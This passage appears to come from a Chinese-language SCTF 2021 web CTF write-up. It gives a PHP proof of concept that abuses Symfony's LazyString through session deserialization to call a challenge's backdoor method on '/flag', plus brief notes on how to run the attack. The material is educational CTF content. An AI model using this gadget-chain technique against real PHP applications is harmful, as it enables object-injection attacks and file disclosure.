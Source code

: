 ```php
```

调用`backdoor`包含`/flag`就行了，POC：

```php
<?php

namespace Symfony\Component\String{
    class LazyString{
        public $value;
        public function __construct(){
            $a = new \sandbox();
            $this->value = [$a,'backdoor'];
        }
    }
}
namespace {

    use Symfony\Component\String\LazyString;

    class sandbox {
        public $evil;
        public function __construct(){
            $this->evil = "/flag";
        }
    }

    session_start();
    $a= new LazyString();
    $_SESSION["upload_path"] = $a;
}
```

按`Upload_it`的思路打就行了。`__wakeup`不影响。跟0CTF那个原理应该一样。

![image-20211225211645100](2021-SCTF-Web-Writeup.assets/image-20211225211645100.png)

